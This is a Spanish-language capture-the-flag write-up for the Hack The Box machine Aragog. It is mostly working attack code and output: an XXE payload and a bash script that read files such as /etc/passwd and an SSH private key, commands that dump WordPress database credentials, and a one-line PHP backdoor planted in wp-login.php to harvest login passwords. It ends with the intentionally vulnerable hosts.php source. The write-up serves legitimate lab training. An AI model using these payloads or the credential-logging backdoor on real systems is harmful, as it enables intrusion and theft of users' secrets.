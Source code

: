 10.10.10.78 - Aragog
--------------------

# Part 1: Enumeración

Puertos abiertos 22(ssh), 21(ftp), 80(http). Nmap nos dice que:
- Puerto 21 (ftp) -> se puede con anonymous, version vsftpd 3.0.3
- Puerto 80 -> Apache httpd 2.4.18, Nombre aragog.htb

```console
└─$ ftp 10.10.10.78
Name (10.10.10.78:cucuxii): anonymous
230 Login successful.
ftp> prompt off
ftp> dir
-r--r--r--    1 ftp      ftp            86 Dec 21  2017 test.txt
ftp> mget *
ftp> exit
└─$ cat test.txt 
<details>
    <subnet_mask>255.255.255.192</subnet_mask>
    <test></test>
</details>
```

```console
└─$ wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://aragog.htb/FUZZ/
000000070:   403        9 L      28 W       275 Ch      "icons"
000095511:   403        9 L      28 W       275 Ch      "server-status"
└─$ wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://aragog.htb/FUZZ.php
000006008:   200        3 L      6 W        46 Ch       "hosts"
```
-------------------------------

# Part 2: XXE

La página nos dice que hay tales posibles hosts para una red (no nos dice cual). 
Si probamos a darle el archivo que nos descargamos:
```console
└─$ curl -s -X POST http://aragog.htb/hosts.php -d @test.txt
There are 62 possible hosts for 255.255.255.192
```
Nos hace un subneteo.
Cambiamos la ip del test.test por otra al azar:
```console
└─$ curl -s -X POST http://aragog.htb/hosts.php -d @test.txt
There are 1902772222 possible hosts for 142.150.0.0
```
Como lo que estamos enviando es un XML, se podría intentar un XXE básico:
```console
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<details>
    <subnet_mask>&xxe;</subnet_mask>
    <test></test>
</details>
└─$ curl -s -X POST http://aragog.htb/hosts.php -d @test.txt 
There are 4294967294 possible hosts for root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```
-------------------------------

# Part 3: LFI

Tenemos por tanto lectura de archivos, me hice un script para automatizar esto:
```bash
#!/bin/bash

file=$1
rm -rf $(pwd)/test.txt
cat << EOF > $(pwd)/test.txt
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file://$file"> ]>
<details>
    <subnet_mask>&xxe;</subnet_mask>
    <test></test>
</details>
EOF
curl -s -X POST http://aragog.htb/hosts.php -d @test.txt | sed 's/There are .* possible hosts for//g'
```
Dicho script crea un archivo xml cada vez por el archivo que queramos leer, ademas destruye el anterior.

```console
└─$ ./files.sh /etc/passwd | grep "sh$" 
# root, florian y cliff
└─$ for port in $(./files.sh /proc/net/tcp | awk '{print $2}' | awk '{print $2}' FS=":"); do echo "$((16#$port))" | tr "\n" ","; done
22,3306,52600 # Puertos internos (ssh, mysql y otro que no se que es)
└─$ ./files.sh /proc/net/fib_trie | grep "LOCAL" -B 1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u  | tr "\n" " "
10.10.10.78 127.0.0.1 
# Interfaces abiertas, no parece haber contenedores
└─$ ./files.sh /proc/self/environ # nada
└─$ ./files.sh /home/florian/.ssh/id_rsa
 -----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA50DQtmOP78gLZkBjJ/JcC5gmsI21+tPH3wjvLAHaFMmf7j4d
...
```
Copiamos la id_rsa que acabamos de conseguir. (Quitarle el espacio del principio)

```console
└─$ chmod 600 id_rsa
└─$ ssh -i id_rsa florian@10.10.10.78
florian@aragog:~$ 
```
-------------------------------

# Part 4: Explotación de wordpress

Ya tenemos la user.txt con él, para escalar privilegios tiramos de nuestro script de reconocimiento, pero como
con él no encuentro nada, tiraré del de monitoreo.
```console
florian@aragog:/tmp$ ./procmon.sh
> /usr/sbin/CRON -f
> /bin/sh -c /usr/bin/python3 /home/cliff/wp-login.py
> /usr/bin/python3 /home/cliff/wp-login.py
> /bin/bash /root/restore.sh

florian@aragog:/tmp$ cat /home/cliff/wp-login.py
cat: /home/cliff/wp-login.py: Permission denied
```
Parece que se están autenticando automaticamente con el script /home/cliff/wp-login.py, aunque no podamos leerlo.
Como nos hablan de wp-login (archivo de wordpress) seguro que existe un wp-config (archivo con creds de la base de datos)
```console
florian@aragog:/tmp$ find / -name "wp-config.php" 2>/dev/null
/var/www/html/zz_backup/wp-config.php # Este nos da permiso denegado
/var/www/html/dev_wiki/wp-config.php  # Este otro si que nos deja leerlo

florian@aragog:/tmp$ cat /var/www/html/dev_wiki/wp-config.php | grep "^define"
define('DB_USER', 'root');
define('DB_NAME', 'wp_wiki');
define('DB_PASSWORD', '$@y6CHJ^$#5c37j$#6h');
define('DB_HOST', 'localhost');

florian@aragog:/tmp$ mysql -u 'root' -p                                                                           
Enter password: $@y6CHJ^$#5c37j$#6h
mysql> show databases; # interesante -> wp_wiki
mysql> use wp_wiki;
mysql> show tables; # -> wp_users
mysql> show columns from wp_users;
mysql> select user_login, user_pass, user_email from wp_users;
Administrator | $P$B3FUuIdSDW0IaIc4vsjj.NzJDkiscu. | it@megacorp.com
```

Sería la clave un rabbit hole porque no se pudo romper con el jhon.

En la ruta /var/www/html se guarda el codigo fuente de la web que se está ofreciendo por el servidor
```console
florian@aragog:/var/www/html$ ls
dev_wiki  hosts.php  index.html  zz_backup
```
Como vemos hay una ruta nueva llamada dev_wiki (es un directorio)

En **./wp-login.php**, ponemos al principio
```php
<?php
file_put_contents("/var/www/html/creds.txt" ,$_REQUEST, FILE_APPEND);
```
Hacemos un ```watch -n 1 curl -s http://aragog.htb/creds.txt``` y obtenemos las creds:
Administrator:!KRgYs(JFO!&MTr)lf
```console
min/1florian@aragog:/var/www/html/dev_wiki$ su 
Password: 
root@aragog:~# cat root.txt
```

-------------------------------

# Extra: Script en php hosts.php

```php
<?php

    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $details = simplexml_import_dom($dom);
    $mask = $details->subnet_mask;
    //echo "\r\nYou have provided subnet $mask\r\n";

    $max_bits = '32';
    $cidr = mask2cidr($mask);
    $bits = $max_bits - $cidr;
    $hosts = pow(2,$bits);
    echo "\r\nThere are " . ($hosts - 2) . " possible hosts for $mask\r\n\r\n";

    function mask2cidr($mask){
         $long = ip2long($mask);
         $base = ip2long('255.255.255.255');
         return 32-log(($long ^ $base)+1,2);
    }
?>
```
